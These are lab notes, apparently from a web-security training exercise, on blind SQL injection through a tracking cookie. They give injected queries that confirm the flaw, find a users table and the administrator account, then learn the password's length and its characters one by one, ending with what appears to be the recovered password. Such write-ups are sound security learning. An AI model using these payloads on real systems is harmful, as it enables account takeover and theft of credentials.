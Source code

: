 #Lab 11 - Blind SQL injection with condition response

## Vulnerable parameter - tracking cookie

End Goals: 
1) Enumerate the password of the administrator
2) Login as the admininstrator

Analysis:
----------

1) Confirm that the paramter is vulnerable to the blind SQLi

select tracking-id from tracking-table where trackingId = '<trackingId>'

-> If this tracking id exists -> query returns value -> Welcome back message
-> If the tracking id doesn't exist -> query returns nothing -> no Welcome back msg



select tracking-id from tracking-table where trackingId = '<trackingId>' and 1=1--'
	-> TRUE -> Welcome back


select tracking-id from tracking-table where trackingId = '<trackingId>' and 1=0--'
	-> FALSE -> no Welcome back	

2) Confirm that we have a users table

select tracking-id from tracking-table where trackingId = '<trackingId>' and (select 'x' from users LIMIT 1)='x'--' 
	-> TRUE -> Welcome back	-> users table exists in the database.

3) Confirm that username admininstrator exist users table

select tracking-id from tracking-table where trackingId = '<trackingId>' and (select username from users where username='administrator')='administrator'--' 
	-> TRUE -> Welcome back	-> administrator username exists in the database.	

4) Enumerate the password of the administrator user

select tracking-id from tracking-table where trackingId = '<trackingId>' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--' 	
	-> password is exactly 20 characters



select tracking-id from tracking-table where trackingId = '<trackingId>' and (select substring(password,1,1) from users where username='administrator')='a'--' 

52rqbjtjpa749cy0bv6s